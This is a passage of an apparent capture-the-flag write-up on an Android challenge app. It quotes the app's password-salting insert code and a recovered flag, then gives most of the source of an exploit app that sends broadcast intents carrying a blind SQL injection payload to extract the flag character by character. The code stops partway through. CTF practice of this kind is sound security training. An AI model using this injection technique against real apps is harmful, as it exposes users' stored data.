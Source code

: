 So, the flag in my case is `608dc6110462ee35488edf83443fbbc3`.
You can **create a admin user** but the **flag** will be **different** because we have a **salt** under **31337**
```java
 public long insert(String username, String password) {  
        Random rand = new Random();  
        int salt = rand.nextInt(31337);  
        String password_hash = Utils.calcHash(password + new Integer(salt).toString());  
        SQLiteDatabase db = getWritableDatabase();  
        ContentValues values = new ContentValues();  
        values.put(LocalDatabase.UserEntry.COLUMN_NAME_USERNAME, username);  
        values.put(LocalDatabase.UserEntry.COLUMN_NAME_PASSWORD, password_hash);  
        values.put(LocalDatabase.UserEntry.COLUMN_NAME_FLAG, "ctf{An injection is all you need to get this flag - " + password_hash + "}");  
        values.put(LocalDatabase.UserEntry.COLUMN_NAME_SALT, new Integer(salt).toString());  
        long rowId = db.insert(LocalDatabase.UserEntry.TABLE_NAME, null, values);  
        db.close();  
        return rowId;  
    }
```

So, the app that we need create, need **take** the **flag**.
You can create an **app** for **lollipop** android version (5.1) and here is the code
```java
package com.example.exploitapp;  
  
import android.content.BroadcastReceiver;  
import android.content.Context;  
import android.content.Intent;  
import android.content.IntentFilter;  
import android.os.Bundle;  
import android.util.Log;  
import androidx.appcompat.app.AppCompatActivity;  
  
public class MainActivity extends AppCompatActivity {  
  
    private final String knownPrefix = "ctf{An injection is all you need to get this flag - ";  
    private int currentIndex = knownPrefix.length() + 1;  
    private char testChar = '0';  
    private String recoveredFlag = "";  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        setContentView(R.layout.activity_main);  
  
        Log.d("Exploit", "Starting exploit sequence...");  
  
        // Register broadcast receiver for output intent  
        IntentFilter intentFilter = new IntentFilter("com.bobbytables.ctf.myapplication_OUTPUTINTENT");  
        registerReceiver(new FlagReceiver(), intentFilter);  
  
        // Start flag extraction  
        extractNextChar();  
    }  
  
    private void extractNextChar() {  
        String injectionPayload = "\" OR substr(flag, " + currentIndex + ", 1) = \"" + testChar + "\" --";  
        Intent intent = new Intent("com.bobbytables.ctf.myapplication_INTENT");  
        intent.putExtra("username", injectionPayload);  
        intent.putExtra("password", "asdasdas");  // Password doesn't matter due to SQLi  
        sendBroadcast(intent);  
    }  
```